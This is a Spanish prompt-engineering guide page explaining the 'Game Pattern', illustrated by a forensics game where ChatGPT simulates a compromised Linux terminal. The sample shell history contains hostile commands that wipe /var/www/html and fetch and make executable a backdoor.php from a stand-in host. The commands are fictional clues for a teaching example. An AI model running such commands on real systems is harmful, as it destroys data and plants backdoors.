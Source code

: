 <div align=right>

||[![](https://img.shields.io/badge/-Inicio-FFF?style=flat&logo=Emlakjet&logoColor=black)](/README.md) [![](https://img.shields.io/badge/-Introducción-FFF?style=flat&logo=abbrobotstudio&logoColor=black)](/documentos/intro.md) [![](https://img.shields.io/badge/-Modelos_de_lenguaje-FFF?style=flat&logo=LiveChat&logoColor=black)](/documentos/LLMs.md) [![](https://img.shields.io/badge/-Panorámica-FFF?style=flat&logo=openstreetmap&logoColor=black)](/documentos/panoramica.md)<br>  [![](https://img.shields.io/badge/-Prompts-FFF?style=flat&logo=Proton&logoColor=black)](/documentos/prompts/README.md) [![](https://img.shields.io/badge/-Ing,_de_prompts-FFF?style=flat&logo=googleearthengine&logoColor=black)](/documentos/ingenieriaDePrompts/README.md) [![](https://img.shields.io/badge/-Patrones-FFF?style=flat&logo=textpattern&logoColor=black)](/documentos/ingenieriaDePrompts/patrones/README.md) [![](https://img.shields.io/badge/-Casos_de_uso-FFF?style=flat&logo=gitbook&logoColor=black)](/documentos/casosDeUso/README.md)|
|-:|

</div>

# Patrón de Juego

[💬](https://chat.openai.com/share/22b54976-a727-4ef3-88fe-41d0697345b3)

## Intención y Contexto

La intención de este patrón es crear un juego en torno a un tema determinado. El patrón puede combinarse con el Generador de Visualización para añadir imágenes al juego. El juego se centra en un tema específico y el LLM guiará el juego. Este patrón es particularmente efectivo cuando las reglas del juego son relativamente limitadas en alcance, pero se espera que el contenido del juego sea amplio. El usuario puede especificar un conjunto limitado de reglas y luego el LLM puede automatizar la generación de contenidos para el juego.

## Motivación

Te gustaría que el LLM generase escenarios o preguntas en torno a un tema específico y requerir que los usuarios apliquen habilidades de resolución de problemas u otras habilidades para lograr una tarea relacionada con el escenario. Generar todo el contenido para el juego manualmente sería demasiado tedioso, sin embargo, te gustaría que el LLM aplicase su conocimiento sobre el tema para guiar la generación de contenido.

## Estructura e Ideas Clave

Declaraciones contextuales fundamentales:

|Declaraciones Contextuales
|-|
Crea un juego para mí en torno a X
Una o más reglas fundamentales del juego

La primera declaración instruye al LLM a crear un juego y proporciona el enfoque importante del juego a un área temática. Una de las capacidades importantes del patrón es que permite al usuario crear juegos describiendo las reglas del juego, sin tener que determinar el contenido del juego. Cuanto más específico sea el tema, típicamente el juego será más novedoso e interesante.

La segunda declaración presenta las reglas del juego al LLM. Es importante que las reglas se ajusten a las capacidades del LLM. Los juegos textuales que dependen de secuencias de texto de entrada y salida funcionan mejor. Uno de los atributos clave del patrón es que el texto de entrada puede ser rico y expresivo, lo que puede llevar a interfaces interesantes para el juego. Por ejemplo, el usuario podría expresar acciones en el juego como scripts que dictan una secuencia de acciones complejas, como "obtener un listado de toda la actividad de la red y comprobar si hay anomalías", lo que va más allá del alcance de las entradas de opción múltiple o respuesta corta. Cada regla debe proporcionarse como una declaración separada con respecto a algún aspecto del juego.

## Ejemplo de Implementación

A continuación se muestra un ejemplo de un juego sobre ciberseguridad:

> "Vamos a jugar a un juego de ciberseguridad. Vas a pretender ser un terminal Linux de un ordenador que ha sido comprometido por un atacante. Cuando escriba un comando, vas a mostrar el texto correspondiente que el terminal Linux produciría. Voy a usar comandos para intentar descubrir cómo fue comprometido el sistema. El ataque debería haber hecho una o más de las siguientes cosas: (1) lanzado nuevos procesos, (2) cambiado archivos, (3) abierto nuevos puertos para recibir comunicación, (4) creado nuevas conexiones salientes, (5) cambiado contraseñas, (6) creado nuevas cuentas de usuario, o (7) leído y robado información. Para comenzar el juego, imprime un escenario de lo que sucedió que llevó a mi investigación y haz que la descripción tenga pistas que pueda usar para comenzar."

Este juego de ciberseguridad combina varios patrones, incluyendo el de Juego y el de Personalidad. La personalidad del terminal Linux que se elige para el juego [ha sido discutida en muchas publicaciones en Internet](https://www.engraved.blog/building-a-virtual-machine-inside/). Este juego personaliza aún más la personalidad de Linux discutida para actuar como un terminal Linux de un ordenador comprometido por un ciberataque. ChatGPT responde a los comandos de Linux con las salidas del terminal apropiadas y sintetiza un sistema de archivos falso que tiene pistas sobre un ciberataque.

Una muestra de la salida de este juego con ChatGPT después de escribir "ls -alt", el comando de Linux para generar una lista de archivos en el directorio actual se muestra a continuación (los permisos han sido eliminados por razones de formato):

```
total 56
 5 user user  4096 Feb 16 14:31 .
 1 user user 18881 Feb 16 14:31 .bash_history
43 user user  4096 Feb 16 14:30 ..
 1 user user  1178 Aug 15  2022 .bashrc
 1 user user   220 Aug 15  2022 .bash_logout
 3 user user  4096 Feb 16 14:25 .gnupg
 1 user user  4041 Feb 15 17:52 README.md
 2 user user  4096 Feb 1  11:35 project
```

Cuando el usuario luego escribió el comando "cat .bash history", para mostrar el contenido del archivo de registro que muestra los comandos ejecutados por el usuario, ChatGPT respondió con:

```
cd /var/www/html
sudo rm -rf *
sudo wget https://example.com/backdoor.php
sudo chmod 777 backdoor.php
exit
ls -alt
ps -ef
netstat -tulnp
```

En la salida anterior, ChatGPT generó un archivo de registro falso con comandos realistas para eliminar los datos que están siendo servidos por el servidor web en /var/www/html y reemplazar el contenido con una puerta trasera en el sistema.

## Consecuencias

Este patrón se puede combinar eficazmente con los patrones [Persona](persona.md), [Generación Infinita](generacionInfinita.md) y [Generador de Visualización](generadorDeVisualizacion.md). Por ejemplo, el juego de ciberseguridad utiliza el patrón de Persona para que el LLM pueda hacerse pasar por un terminal Linux. Para un juego de seguridad de red, el Generador de Visualización podría emplearse para agregar la capacidad de visualizar la topología de la red y los flujos de tráfico.
